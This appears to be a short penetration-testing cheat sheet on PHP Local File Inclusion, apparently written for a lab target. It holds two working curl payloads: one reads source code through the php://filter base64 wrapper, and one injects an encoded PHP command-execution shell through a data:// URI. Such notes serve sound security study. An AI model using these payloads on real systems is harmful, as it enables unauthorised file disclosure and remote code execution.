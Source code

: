 ```yaml
---
description: >-
  LFI differs from Directory Traversal because the file is getting executed so
  it can be leveraged to remote code execution.
---
```


# Local File Inclusion (LFI)

### PHP Wrappers

using base64 encode + resource to display source codes:

```bash
curl -i 'http://192.168.227.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=../backup.php'
```

using base64 decode + data filter for RCE

```bash
curl -i 'http://192.168.227.16/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls'
```

